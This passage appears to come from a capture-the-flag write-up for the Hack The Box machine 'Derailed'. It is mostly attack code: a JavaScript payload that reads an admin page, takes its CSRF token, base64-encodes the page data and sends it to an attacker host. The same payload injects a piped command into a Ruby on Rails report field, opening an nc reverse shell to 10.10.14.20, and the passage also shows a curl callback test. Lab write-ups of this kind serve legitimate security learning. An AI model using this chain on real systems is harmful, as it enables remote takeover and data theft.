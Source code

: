 ```javascript
        body: new URLSearchParams(report_form)
      });
  })
  .then(response => response.text())
  .then(report_data => {
    fetch(MY_URI + "/?report=" + btoa(report_data));
  })
  .catch(error => {
    fetch(MY_URI + "/?error=" + btoa(error));
  });

```
In that file there isn't much, only the a file containing:
```
REPORTED ID, MESSAGE
```
Before trying crazy LFI things, I think that it's worth noting that the server is (probably) opening a file to read.
Just to be sure that there aren't any RCE vulnerabilities when opening a file in Ruby on Rails I googled for "ruby on rails rce" and found [this interesting page](https://bishopfox.com/blog/ruby-vulnerabilities-exploits) which has quite the interesting line as the first presented exploit.
If we put `|curl http://10.10.14.20:9090/hellothisiskernel.log` we successfully get a callback!
Final script to get the shell:
```javascript
const MY_URI = "http://10.10.14.20:9090";
const ADMIN_URI = "http://derailed.htb:3000/administration";
fetch(ADMIN_URI)
  .then(response => response.text())
  .then(body => {
    fetch(MY_URI + "/?data=" + btoa(body));

    var parser = new DOMParser();
    var doc = parser.parseFromString(body, "text/html");
    var authenticity_token = doc.getElementById("authenticity_token").value;

    var report_form = {
        "authenticity_token": authenticity_token,
        "report_log": "|rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.20 9191 >/tmp/f;touch /tmp/a.log",
        "button": ""
    };

    return fetch(ADMIN_URI + "/reports", {
        method: 'POST',
        headers: {
          'Content-Type': 'application/x-www-form-urlencoded'
        },
        body: new URLSearchParams(report_form)
      });
  })
  .then(response => response.text())
  .then(report_data => {
    fetch(MY_URI + "/?report=" + btoa(report_data));
  })
  .catch(error => {
    fetch(MY_URI + "/?error=" + btoa(error));
  });

```
I put `touch /tmp/a.log` at the end just to avoid some filters checking for the extension.
